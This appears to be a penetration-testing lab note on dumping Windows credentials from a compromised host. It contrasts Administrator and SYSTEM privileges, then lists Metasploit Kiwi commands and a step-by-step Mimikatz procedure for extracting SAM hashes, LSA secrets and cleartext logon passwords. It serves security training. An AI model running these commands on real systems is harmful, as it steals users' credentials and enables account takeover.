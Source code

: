 > This only works if your current user already has the right to access or inject into lsass.exe — usually if you're at least Administrator. If not, the migration will fail or crash the system.

**ATTACKDEFENSE\Administrator**
- High-level administrative privileges but below SYSTEM.
- Full control over the local system, including installing software, managing users, and changing system settings.
- Still subject to certain restrictions compared to SYSTEM, particularly regarding system-level services and kernel-level actions.

**NT AUTHORITY\SYSTEM**
- Highest possible privileges on a Windows system.
- Built-in system account used by Windows operating system processes and services.
- Full control over the entire system, including all files, services, processes, and registry keys.
- Even more powerful than an Administrator because it has unrestricted access to every part of the OS.

**Kiwi Extension for Credential Dumping**

```shell
# Load the Kiwi Extension for Credential Dumping. Kiwi is an inbuilt Metasploit extension based on Mimikatz, used for extracting sensitive information like credentials and hashes.
load kiwi # Load the Kiwi extension.
help kiwi  # Shows the help menu for available Kiwi commands.

creds_all # Dump all stored credentials, including plaintext passwords, hashes, and Kerberos tickets.
lsa_dump_sam # The SAM file contains hashed credentials for local user accounts.
lsa_dump_secrets # Find the syskey by dumping the LSA secrets.
```

**Manual Credential Extraction Using Mimikatz Executable**

```shell
# Manual Credential Extraction Using Mimikatz Executable
pwd  # Check the current working directory.
cd C:\\  # Change to the C: drive.
mkdir Temp  # Create a temporary folder.
cd Temp  # Navigate to the Temp directory.

# Upload the Mimikatz executable from your local machine.
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe

shell # Start a command shell from the Meterpreter session.
dir # List the contents of the Temp directory to ensure the upload was successful.
.\mimikatz.exe # Execute Mimikatz from the shell.

# Verify Privileges in Mimikatz
privilege::debug  # Should return 'Privilege '20' OK' if successful.
lsadump::sam  # Dumps hashed credentials from the SAM file.
lsadump::secrets  # Extracts system secrets.

# Extract Cleartext Passwords from Memory
sekurlsa::logonpasswords # If the system is configured to store passwords in memory, Mimikatz can extract them.
# If no cleartext passwords appear, the system is likely well-configured and secured.
```
